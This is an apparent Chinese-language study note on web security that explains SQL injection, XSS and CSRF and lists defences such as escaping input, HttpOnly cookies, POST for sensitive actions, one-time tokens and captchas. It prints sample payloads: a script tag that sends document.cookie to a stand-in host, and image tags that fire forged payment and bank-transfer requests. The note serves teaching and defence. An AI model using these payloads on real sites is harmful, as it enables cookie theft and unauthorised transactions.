# Web安全
## SQL注入
验证输入

## XSS (Cross Site Scripting, 跨站脚本攻击)
1. DOM Based XSS
假设网站的content内容是由query中content决定的. 将`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`这个链接通过邮件发给用户, 用户点击后会被盗取cookie信息;

2. Stored XSS
在某博客平台发表的文章中插入`<script>window.open(“www.b.com?param=”+document.cookie)</script>`

预防:
1. 字符替换用户输入的代码`<, >, &, ", ', / ....`;
2. cookie增加`http-only`限制, 禁止js操作
header头`set-Cookie: ..........; HttpOnly`

## CSRF (Cross-site request forgery, 跨站请求伪造)
CSRF 是借用了当前操作者的权限来偷偷地完成某个操作，而不是拿到用户的信息。

![csrf](../../assets/csrf.jpg)

例1:
一个用户已经登录了http://buy.com，在选择商品时，突然收到一封邮件，而这封邮件正文有这么一行代码`<img src="http://buy.com/pay?touid=999&money=100"/>`，他访问了邮件之后，其实就已经完成了购买。

例2:
银行网站A，它以GET请求来完成银行转账的操作，如：`http://www.mybank.com/Transfer.php?toBankId=11&money=1000`
危险网站B，它里面有一段HTML的代码如下：
`<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>`
首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

**CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！**

预防:
1. 涉及现金交易的肯定要输入密码或者指纹
2. 敏感接口使用POST而不是GET
3. one-Time Tokens(不同的表单包含一个不同的伪随机值)
>必须小心操作以确保CSRF保护措施不会影响选项卡式的浏览或者利用多个浏览器窗口浏览一个站点。
4. 验证码